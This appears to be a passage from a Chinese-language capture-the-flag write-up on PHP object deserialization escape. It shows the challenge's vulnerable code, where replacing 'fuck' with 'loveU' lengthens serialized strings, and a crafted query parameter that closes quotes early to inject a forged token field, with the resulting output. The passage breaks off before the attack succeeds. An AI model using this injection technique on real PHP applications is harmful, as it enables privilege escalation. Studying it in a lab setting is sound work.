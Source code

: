 ```php
```

简化过来这里的过程就是,`GET`传`f,m,t`, 分别传给`message`类中的`from,msg,to`属性,`message`类中还有一个`token`属性值为`user`,传完参之后并创建`message`类的对象后,会将这个对象序列化, 将序列化字符串中的`fuck`全部替换成`loveU`. 然后再反序列化. 最后如果反序列化后对象的`token`属性为`admin`,则输出flag

本地测试:

```php
<?php
class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}
$f = $_GET['f'];
$m = $_GET['m'];
$t = $_GET['t'];
if(isset($f) && isset($m) && isset($t)){
    $msg = new message($f,$m,$t);
    $a = serialize($msg);
    $umsg = str_replace('fuck', 'loveU', $a);
    echo $a;
    echo '<br>';
    echo $umsg;
    $b = unserialize($umsg);
    echo '<br>';
    var_dump($b);
}
?>
```

这里`fuck`被替换成`loveU`,每次替换都会使得长度+1. 

先传简单的值看看效果:

```
f=a&m=b&t=c
输出:
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:1:"b";s:2:"to";s:1:"c";s:5:"token";s:4:"user";}
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:1:"b";s:2:"to";s:1:"c";s:5:"token";s:4:"user";}
object(message)#2 (4) { ["from"]=> string(1) "a" ["msg"]=> string(1) "b" ["to"]=> string(1) "c" ["token"]=> string(4) "user" }
```

现在的目标是将最后的`token`属性值改为`admin`,那么就需要在此之前找一个值来提前闭合引号和花括号,如果找`msg`的属性值,也就是上面的`b`来做突破口:

```
f=a&m=";s:2:"to";s:1:"c";s:5:"token";s:5:"token";}&t=c
这里m传的值为:    ";s:2:"to";s:1:"c";s:5:"token";s:5:"token";},其长度为44
输出:
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:44:"";s:2:"to";s:1:"c";s:5:"token";s:5:"token";}";s:2:"to";s:1:"c";s:5:"token";s:4:"user";}
O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:44:"";s:2:"to";s:1:"c";s:5:"token";s:5:"token";}";s:2:"to";s:1:"c";s:5:"token";s:4:"user";}
object(message)#2 (4) { ["from"]=> string(1) "a" ["msg"]=> string(44) "";s:2:"to";s:1:"c";s:5:"token";s:5:"token";}" ["to"]=> string(1) "c" ["token"]=> string(4) "user" }
```

